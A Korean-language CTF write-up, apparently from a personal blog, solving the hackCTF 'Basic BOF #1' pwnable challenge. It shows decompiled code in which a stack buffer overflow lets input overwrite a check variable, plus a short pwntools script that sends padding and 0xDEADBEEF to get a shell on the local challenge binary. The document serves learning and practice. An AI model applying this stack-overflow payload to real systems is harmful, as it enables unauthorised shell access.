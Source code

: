 ```yaml
---
layout: post
title:  "[hackCTF]Basic BOF #1"
date:   2020-02-09
---
```

hackCTF pwnable 첫번째 문제

## ida
***
```
  int __cdecl main(int argc, const char **argv, const char **envp)
  {
    char s; // [esp+4h] [ebp-34h]
    int v5; // [esp+2Ch] [ebp-Ch]

    v5 = 67305985;
    fgets(&s, 45, stdin);
    printf("\n[buf]: %s\n", &s);
    printf("[check] %p\n", v5);
    if ( v5 != 67305985 && v5 != -559038737 )
      puts("\nYou are on the right way!");
    if ( v5 == -559038737 )
    {
      puts("Yeah dude! You win!\nOpening your shell...");
      system("/bin/dash");
      puts("Shell closed! Bye.");
    }
    return 0;
```   
코드를 보면 v5가 -559038737일 때 shell을 실행할 수 있다.   
우리가 직접 수정할 수 있는 건 s이다.   
payload를 v5까지 덮을 수 있도록 만들자.


## exploit.py
***
```
  #!/usr/bin/python
  from pwn import *
  
  p = process('./bof_basic')

  payload = "A"*(0x2c-0x4)+p32(0xDEADBEEF)

  p.sendline(payload)

  p.interactive()
```
-559038737는 hex로 0xDEADBEEF다. p32 방식으로 패킹해서 payload를 만들면 끗.  
p32 : little endian 방식으로 패킹해줌 (u32 : 언패킹)
